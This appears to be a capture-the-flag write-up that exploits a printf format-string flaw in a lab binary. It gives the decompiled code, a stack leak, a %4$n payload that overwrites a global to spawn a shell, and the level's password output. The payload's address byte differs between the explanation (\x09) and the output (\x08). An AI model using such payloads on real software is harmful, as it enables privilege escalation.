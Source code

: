 - ./level3 is a binary that asks us an input. And he just writes it back. Np segmentation fault that could lead to a buffer overflow here.

```C
void v(void)
{
    char local_20c [520];
    
    fgets(local_20c,0x200,stdin);
    printf(local_20c);
    if (m == 0x40) {
        fwrite("Wait what?!\n",1,0xc,stdout);
        system("/bin/sh");
    }
    return;
}

void main(void)
{
    v();
    return;
}
```

- The program execute /bin/sh if the m global variable is equal to 0x40 / 64 in decimal. We have to overwrite this variable in order to get a higher privilege shell. We will use the format string vulnerabiliy.

- Let's first leak the address of the m variable.

```bash
> nm ./level3 | grep m

         w __gmon_start__
         U __libc_start_main@@GLIBC_2.0
08049884 b completed.6159
08048480 t frame_dummy
0804988c B m
0804851a T main
         U system@@GLIBC_2.0
```

- The address of m is 0x0804988c

- Let's leak stack memory with printf vulnerability

```bash
> ./level3
AAAA %x %x %x %x %x %x %x %x 
AAAA 200 f7f57620 380 41414141 20782520 25207825 78252078 20782520 25207825
```


- We see here that the printf pointer in memory arrives on the local_20c buffer at index 4.


- Now let's see what does %n. %n does print anything but put the number of bytes printed by printf in the variable given in argument.

```C
printf("ABCDEF%n", &x);

- This put the value 6 in x.

printf("ABCDEF%4$n");

- This put the value 6 in the 4th element pointed by printf
```

- Exploit:

```
payload: "\x8c\x98\x04\x09" + 60*"A" + "%4$n"

First element is the address of m that we put in the buffer
Then we add a padding to reach exactly 64, the number we want to put in m
Then we tell printf to put the 64 bytes read into the 4th element of the stack that we treat as a pointer, this our local buffer, that contains the address of m. So printf will put 64 bytes at the addres of m.
```


```bash
python3 exploit.py

\x8c\x98\x04\x08BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
Wait what?!
$ $ whoami
level4

$ $ cat .pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
